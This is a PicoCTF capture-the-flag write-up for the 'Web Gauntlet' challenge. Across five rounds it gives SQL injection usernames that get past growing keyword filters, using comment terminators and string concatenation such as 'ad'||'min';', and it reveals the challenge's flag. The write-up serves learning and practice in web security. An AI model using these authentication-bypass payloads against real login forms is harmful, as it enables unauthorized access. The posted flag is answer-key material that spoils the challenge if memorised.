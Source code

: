# Web Gauntlet
* Source: PicoCTF
* Link: [PicoCTF.org](https://picoctf.org/)
* Challenge: Web Gauntlet
* Category: Web Exploitation
* Points: 200
* Date: 08-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Problem:
![](./attachments/Pasted%20image%2020220407232135.png)

---
## Hints:
1. You are not allowed to login with valid credentials.
2. Write down the injections you use in case you lose your progress.
3. For some filters it may be hard to see the characters, always (always) look at the raw hex in the response.
4. sqlite
5. If your cookie keeps getting reset, try using a private browser window.

---
## Solution:
This is an QSL Injection challenge, we need to get past the filers.

We get two inks
The first is to a login page, the second is telling us the first filter is 'or', that means that the classic SQL Injection `' or 1=1--` won't work.

![](./attachments/Pasted%20image%2020220408002633.png)

#### Round 1:

Filter: `or`

Username: `admin'--`

Password: `1`

#### Round 2:

Filter: `or and like = --`

Username: `admin';`

Password: `1`

#### Round 3:

Filter: `or and = like > < --`

Username: `admin';`

Password: `1`

#### Round 4:

Filter: `or and = like > < -- admin`

Username: `ad'||'min';`

Password: `1`

#### Round 5:

Filter: `or and = like > < -- union admin`

Username: `ad'||'min';`

Password: `1`

![](./attachments/Pasted%20image%2020220408002116.png)

And the .php file.

![](./attachments/Pasted%20image%2020220408001959.png)

We can see all the filers throughout the challenge, and at the bottom is the flag!

**Flag:** `picoCTF{y0u_m4d3_1t_96486d415c04a1abbbcf3a2ebe1f4d02}`

---
**Tags:** [[PicoCTF]] [[SQL Injection]]